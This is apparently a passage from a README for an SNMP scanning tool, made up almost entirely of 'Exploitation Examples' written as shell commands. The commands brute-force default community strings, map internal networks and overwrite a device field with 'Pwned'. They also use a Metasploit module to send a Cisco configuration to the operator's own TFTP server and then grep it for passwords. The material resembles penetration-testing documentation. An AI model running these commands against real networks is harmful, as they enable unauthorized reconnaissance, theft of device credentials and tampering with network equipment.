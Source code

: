 ### Windows-Specific
```
1.3.6.1.4.1.77.1.2.25   - Windows users
1.3.6.1.4.1.77.1.4.2    - Windows shares
1.3.6.1.2.1.25.4.2.1.2  - Windows processes
```

## Exploitation Examples

### Example 1: Default Community Strings
```bash
# 1. Discover with default communities
./snmpseek.py 192.168.1.0/24 --bruteforce

# Output:
# [+] 192.168.1.1 - Community 'public' (READ)
# [+] 192.168.1.10 - Community 'private' (WRITE)

# 2. Extract sensitive information
snmpwalk -v2c -c public 192.168.1.1 system

# 3. Modify configuration (if write access)
snmpset -v2c -c private 192.168.1.10 1.3.6.1.2.1.1.6.0 s "Pwned"
```

### Example 2: Network Reconnaissance
```bash
# 1. Find SNMP devices
./snmpseek.py --full 10.0.0.0/16

# 2. Extract all IP addresses from devices
for ip in $(cut -d: -f1 snmplist.txt); do
    community=$(grep $ip snmp_creds.txt | cut -d: -f2 | head -1)
    echo "=== $ip ==="
    snmpwalk -v2c -c $community $ip ipAdEntAddr
done

# 3. Build network map
# Now you know all internal networks!
```

### Example 3: Cisco Config Extraction
```bash
# 1. Find Cisco devices
./snmpseek.py --bruteforce -f cisco_ips.txt

# 2. Check for write access
grep "WRITE" snmp_creds.txt

# 3. Use Metasploit to extract config
msfconsole
use auxiliary/scanner/snmp/cisco_config_tftp
set COMMUNITY private
set RHOST 192.168.1.1
set LHOST 192.168.1.100  # Your TFTP server
run

# 4. Analyze configuration
cat cisco_config_*.txt | grep -i "password\|secret"
```
